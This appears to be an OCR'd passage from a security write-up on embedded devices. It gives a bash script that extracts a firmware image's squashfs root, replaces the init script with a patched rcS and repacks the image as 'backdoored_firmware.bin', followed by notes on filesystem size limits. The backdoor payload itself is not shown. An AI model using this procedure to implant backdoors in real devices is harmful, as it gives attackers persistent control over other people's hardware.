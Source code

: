```bash

# Constants
fw_original="firmware_dump.bin"
fw_output="backdoored_firmware.bin"
squashfs_original="squashfs"
squashfs_modified="squashfs-mod"
squashfs_out="unsquashedfs"
squashfs_size=5835455
squashfs_offset=1703936

# Cleaning
rm -rf squashfs-root/;
rm backdoored_firmware.bin;
rm squashfs-mod;

echo "# Extracting squafsh filesystem ..."
dd if="$fw_original" of="$squashfs_original" bs=1 skip=$squashfs_offset count=$squashfs_size
unsquashfs $squashfs_original

echo "# Backdooring filesystem ..."
# shirnk other stuff
# echo 1 > ./squashfs-root/etc/services			# 16kb
cp ./patch/rcS ./squashfs-root/etc/init.d/rcS
rm ./squashfs-root/bin/dsh 			# 256kb

echo "# Re-creating backdoored squashfs image ..."
mksquashfs ./squashfs-root/ $squashfs_modified -noappend -b 1048576 -Xbcj arm,armthumb -comp xz -Xdict-size 1048576

squashfs_modified_size=$(stat -c%s "$squashfs_modified")
size_difference=$(($squashfs_size - squashfs_modified_size))
echo "# Recreated squashfs image: $squashfs_modified_size"
echo "# Difference between FSs: $size_difference bytes"

cp $fw_original $fw_output

dd if=$squashfs_modified of=$fw_output seek=$squashfs_offset bs=1 conv=notrunc
dd if=/dev/zero  of=$fw_output seek=$((squashfs_offset + squashfs_modified_size)) count=$size_difference bs=1 conv=notrunc

echo "# Done."
```

The custom firmware recreation needed to take care of a really important thing: in the firmware image, the root file-system is in between multiple sections, meaning that we cannot recreate a filesystem larger than the one that we have. Another annoying factor is that typically firmwares for embedded devices are usually skinned of everything that is not useful to the production use case, leaving us with a really really limited environment. Other things to be aware are the characteristics of the squashfs file-system that we have:
- It is a read-only filesystem - we cannot write files at runtime.
- Its block size is 4KiB (4096 bytes).
